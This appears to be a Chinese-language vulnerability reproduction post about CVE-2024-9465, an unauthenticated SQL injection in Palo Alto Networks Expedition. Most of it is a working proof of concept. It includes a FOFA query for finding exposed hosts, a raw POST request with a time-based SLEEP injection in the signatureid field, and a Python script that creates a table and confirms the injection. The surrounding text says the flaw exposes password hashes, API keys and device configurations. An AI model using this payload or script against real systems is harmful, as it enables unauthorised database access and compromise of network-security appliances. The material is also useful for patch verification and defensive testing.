 # PAN未授权SQL注入漏洞复现(CVE-2024-9465)

Palo Alto Networks Expedition中存在的一个SQL注入漏洞POC及漏洞细节已经公开,该漏洞允许未经验证的攻击者获取Expedition数据库内容,例如密码哈希、用户名、设备配置和设备API密钥,利用这一点,攻击者还可以在Expedition 系统上创建和读取任意文件。

### 影响范围

Palo Alto Networks Expedition < 1.2.96

## fofa

```javascript
title="Expedition Project"
```

## poc

```javascript
POST /bin/configurations/parsers/Checkpoint/CHECKPOINT.php HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded

action=import&type=test&project=pandbRBAC&signatureid=1%20AND%20(SELECT%201234%20FROM%20(SELECT(SLEEP(5)))test)
```

![image-20241012114501096](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202410121145181.png)

## python脚本

```python
#!/usr/bin/python3
import argparse
import requests
import urllib3
import sys
import time
urllib3.disable_warnings()


def create_checkpoint_table(url: str):
    print(f'[*] Creating Checkpoint database table...')
    data = {'action': 'get',
            'type': 'existing_ruleBases',
            'project': 'pandbRBAC',
            }
    r = requests.post(f'{url}/bin/configurations/parsers/Checkpoint/CHECKPOINT.php', data=data, verify=False, timeout=30)
    if r.status_code == 200 and 'ruleBasesNames' in r.text:
        print(f'[*] Successfully created the database table')
        return

    print(f'[-] Unexpected response creating table: {r.status_code}:{r.text}')
    sys.exit(1)


def inject_checkpoint_query(url: str):
    start_time = time.time()
    print(f'[*] Injecting 10 second sleep payload into database query...')
    data = {'action': 'import',
            'type': 'test',
            'project': 'pandbRBAC',
            'signatureid': '1 AND (SELECT 1234 FROM (SELECT(SLEEP(10)))horizon3)',
            }
    r = requests.post(f'{url}/bin/configurations/parsers/Checkpoint/CHECKPOINT.php', data=data, verify=False, timeout=30)
    execution_time = time.time() - start_time
    if r.status_code == 200 and execution_time > 9 and execution_time < 15:
        print(f'[*] Successfully sent injection payload!')
        print(f'[+] Target is vulnerable, request took {execution_time} seconds')
        return

    print(f'[-] Unexpected response sending injection payload: {r.status_code}:{r.text}')
    sys.exit(1)


if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    parser.add_argument('-u', '--url', help='The URL of the target', type=str, required=True)
    args = parser.parse_args()

    create_checkpoint_table(args.url)
    inject_checkpoint_query(args.url)

```



## 漏洞来源

- https://github.com/horizon3ai/CVE-2024-9465